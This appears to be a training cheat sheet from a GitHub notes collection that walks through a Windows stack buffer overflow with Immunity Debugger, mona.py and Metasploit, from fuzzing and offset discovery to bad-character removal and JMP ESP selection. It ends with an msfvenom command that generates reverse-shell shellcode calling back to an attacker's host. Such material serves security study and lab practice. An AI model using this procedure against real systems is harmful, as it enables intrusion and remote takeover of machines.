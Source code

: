 # Buffer Overflows
TLDR for Buffer Overflows...

## Methodology

###### Setup Immunity Debugger
- With **mona.py**, setup working folder based on program name:
```bash
!mona config -set workingfolder C:\logs\%p
```
- NOTE: You should know that **mona.py** is to be installed by downloading the **mona.py** script from https://github.com/corelan/mona and dropping it in the **PyCommands** folder (located in the installation folder of Immunity Debugger).

###### Fuzzing
- Determine the RHOST/RPORT of the target box with the running application.
- Determine the PREFIX (i.e. the command that accepts user input and will be the target for the overflow).
- Use the **fuzzer.py** template to configure a fuzzing script with Python3.
- Run the script against the target application, make note of when the app crashes (byte length + 400 extra bytes).

###### Offset
- Create your initial **exploit.py** script following the template.
- Generate a unique pattern equal to the length of bytes when the application crashed, you can do this with Metasploit's **pattern_create**.
```bash
/usr/share/metasploit-framework/exploit/tools/pattern_create -l <length_of_bytes>
```
- Set the **payload** variable in the exploit script equal to the unique pattern.
- Run it against the application and with **mona.py** (in Immunity Debugger), determine the offset.
```bash
!mona findmsp -distance <length_of_bytes>
```
- The offset will be outlined as 'xxxx':
```txt
EIP contains normal pattern : 0x000000 (offset xxxx)
```
- You can also determine the offset with Metasploit's **pattern_offset** (reference the EIP value in Immunity Debugger).
```bash
/usr/share/metasploit-framework/exploit/tools/pattern_offset -q <EIP>
```
- Test that you can control the **EIP** now, to do this, modify your exploit script to include the value of the **offset** in its respectable variable.
- Modify the **retn** variable to 'BBBB' and the **payload** variable to an empty string.
- Use the script against the application again, make sure the EIP is now **42424242**.

###### Badchars
- With **mona.py**, generate a bytearray without `\x00` (null byte).
```bash
!mona bytearray -cpb "\x00"
```
- Using the **badchars.py** script, generate the same array and modify the **payload** variable in your exploit script with the output. Send it to the application again.
- Now with **mona.py**, compare the bytearray with the **ESP** address.
```bash
!mona compare -f C:\logs\<prgoram>\bytearray.bin -a <ESP_address>
```
- This will give you a list of all the badchars found, some may not be badchars however (remove the initial badchars first). Now generate a new bytearray with the badchars removed, update your script's **payload** variable to match, send it again and repeat this process until **mona.py**'s output is 'unmodified'.
- NOTE: You can also just review the **Hex dump** manually instead of using **mona.py** for identifying badchars. I **HIGHLY RECOMMEND** you learn to do it this way, as you will more easily find the initial (and likely only) badchars this way.

###### Finding Jump Point
- With **mona.py** we can a find the 'jump point' **JMP ESP**, make sure to exclude the badchars identified when doing this (with `-cpb`).
```bash
!mona jmp -r esp -cpb "\x00"
```
- This will show some results with different memory addresses, none of which will include badchars. Choose one, ideally with ASLR disabled.
- Modify your exploit script with the memory address identified in Little Endian format (backwards i.e. 0F6A32C2 = \xc2\x32\x6a\x0f) for the **retn** variable.

###### Payload Development
- Now, with Metasploit's **msfvenom**, generate shellcode in 'c' format and excluding your badchars.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<your-ip> LPORT=<your-port> EXITFUNC=thread -b "\x00" -f c
```
- Update your exploit script to include the output of the generated payload in the **payload** variable.
```python
payload = ("xxxx")
```
- Update your **padding** variable to include some NOPS (\x90), 32 to be safe, this will give your payload time to unpack.
```python
padding = "\x90" * 32
```
- Execute your exploit and catch a shell!
